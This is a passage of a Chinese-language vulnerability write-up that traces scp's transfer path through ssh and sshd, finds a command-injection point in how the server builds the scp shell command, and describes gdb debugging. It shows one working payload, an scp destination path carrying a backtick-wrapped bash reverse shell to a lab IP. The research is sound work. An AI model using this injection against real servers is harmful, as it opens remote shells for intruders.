 ![image-20221028083504398.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-f01576ebb515030addb2bd2b44f2a0a7599d4f5e.png)

romote到local与前面toremote函数种的local到remote情况相类似，仅仅是模式由t变为f。这个过程为“本地scp进程 &lt;-----pipe----&gt; 本地ssh子进程 &lt; -------socket------&gt; server端sshd进程 &lt;-------pipe--------&gt; server端scp进程”。

![image-20221028083651572.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-19097ece7e6062c711d07a617f474d276f62d446.png)

根据上述scp传输原理的分析，在toloacl和toremote两个函数种，对于非本地的cp传输都是利用ssh进程辅助实现，并且在服务端由sshd通过pipe通道控制scp进程执行scp命令。这里存在命令执行点，而且scp的参数可以控制，则可能存在命令注入的情况。

当执行传输大文件时，服务器scp进程会起来并维持较长的时间，这里可以抓到服务端scp的进程，如下图所示，这里有一个关键的地方是/tmp，这里会将文件位置与scp命令拼接之后传入bash执行，在Bash 脚本中，(反引号``)运算符和 $()的使用方式可以进行bash命令执行。

![image-20221027155345617.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-a1f5e764ed1adcf34cd5e77270bd99f561049b48.png)

比如当输入如下命令时，有下图所示的结果，引号内的payload作为传输地址传入，但是会按照bash语句执行。

```js

scp 1.tgz nsroot@192.168.100.1:'\`bash -c "bash -i >& /dev/tcp/192.168.100.6/9999 0>&1"\`'

```

![image-20221027160025675.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-549e44107c6cc54c4b2c0f7253a5a9431b79b603.png)

动态分析ssh与scp的调用关系和执行过程：

系统自己有gdb和gdbserver，就不需要我们交叉编译对应版本的工具。

![image-20221027122416256.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-9acfe1d5f1faa9a7eeaf8ecdb4171c32a8f04537.png)

但是server端的scp服务是有客户端发起请求后，由server端的sshd起来的程序，当不发生请求时不存在scp进行，无法通过attach的方式进行动态调试。

针对于sshd进程的调试可以进行，可以尝试调试其scp请求访问时，server端的sshd的反应。在server端查看ssh进程，然后利用gdb attach方式调试进程：

![image-20221028152855865.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-037a4547cd75217e49436d4d097de2eafcbdfbe8.png)

但是在调试的过程中发生问题，如上图所示，第一个进程1137为守护进程，负责循环监听端口，这个是websocket是负责提供一个web端的ssh。进程64514也是一个守护监听进程。

当我开启一个ssh连接或者scp基于ssh的连接之后，会新起一个ssh的子进程，如下图所示，所以我需要调试的进程是这个新起的进程，无法正常的调试。

![image-20221028161721969.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-9252a9851a1c9b38010780cd5ef6773ea204d4c8.png)